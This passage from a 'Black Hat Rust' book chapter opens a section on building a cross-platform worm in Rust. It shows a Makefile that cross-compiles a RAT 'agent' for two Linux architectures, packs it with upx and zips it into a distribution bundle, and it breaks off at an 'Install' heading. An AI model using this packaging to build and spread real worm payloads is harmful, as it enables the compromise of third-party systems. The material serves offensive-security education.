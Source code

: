 
An alternative is to use a private registry, but it comes with a lot of maintenance and may only be a viable solution for larger teams.

In Rust, you can vendor your dependencies using the `cargo vendor` command.


## Implementing a cross-platform worm in Rust



### bundle.zip


The first step is to build our bundle containing all the compiled versions of the worm for all the platforms we want to target.

For that, we will use `cross` as we learned in the previous chapter.

Also, in order to reduce the bundle's size, we compress each executable with the `upx` packer.


**[ch_13/rat/Makefile](https://github.com/skerkour/black-hat-rust/blob/main/ch_13/rat/Makefile)**
```makefile
.PHONY: bundle
bundle: x86_64 aarch64
    rm -rf bundle.zip
    zip -j bundle.zip target/agent.linux_x86_64 target/agent.linux_aarch64


.PHONY: x86_64
x86_64:
    cross build -p agent --release --target x86_64-unknown-linux-musl
    upx -9 target/x86_64-unknown-linux-musl/release/agent
    mv target/x86_64-unknown-linux-musl/release/agent target/agent.linux_x86_64


.PHONY: aarch64
aarch64:
    cross build -p agent --release --target aarch64-unknown-linux-musl
    upx -9 target/aarch64-unknown-linux-musl/release/agent
    mv target/aarch64-unknown-linux-musl/release/agent target/agent.linux_aarch64
```

```bash
$ make bundle
```


Our `bundle.zip` file now contains:

```default
agent.linux_x86_64
agent.linux_aarch64
```

## Install
